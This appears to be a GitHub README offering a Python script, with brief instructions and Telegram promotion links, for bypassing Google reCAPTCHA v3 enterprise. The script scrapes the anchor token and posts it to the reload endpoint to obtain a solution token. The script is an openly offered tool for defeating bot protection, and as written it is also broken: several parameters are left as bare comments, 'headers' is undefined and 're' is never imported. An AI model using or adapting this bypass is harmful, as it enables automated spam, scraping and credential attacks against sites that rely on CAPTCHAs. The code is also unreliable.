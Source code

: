 <h1>Bypass Recaptcha v3</h1>
<h2> fully explained </h2>

```python
import requests
params = {
    'ar': '1',
    'k': #take it form anchor,
    'co': # take from anchor,
    'hl': 'en',
    'v': 'EGbODne6buzpTnWrrBprcfAY',
    'size': 'invisible',# the type of recaptcha
    'cb': # from anchor,
}

response = requests.get('https://www.google.com/recaptcha/enterprise/anchor', params=params, headers=headers);token = re.search(r'id="recaptcha-token" value="([^"]+)"', response.text).group(1);reloa_url = "https://www.google.com/recaptcha/enterprise/reload?k=replace this"

reload_data = {
    "v":"EGbODne6buzpTnWrrBprcfAY", # the version of captcha 
    "reason":"q",
    "c":token,# the token


}
cap = requests.post(url=reloa_url,data=reload_data);recaptcha_solution = re.findall(r'rresp","(.+?)"', cap.text)
```
<h3>
First you need to capture anchor request ( use reqable - burp - etc.. )
put the params in empty values 
then the reload url gets the token from the anchor url and get the hidden input value 
that's all 🗣️</h3>
<h1>
  follow us on telegram 
  https://t.me/+Rf15q_5GzZ40M2Jk

  my account 
  https://t.me/assemblyexe
</h1>
<p>if something went wrong in anchor just but some cookies </p>
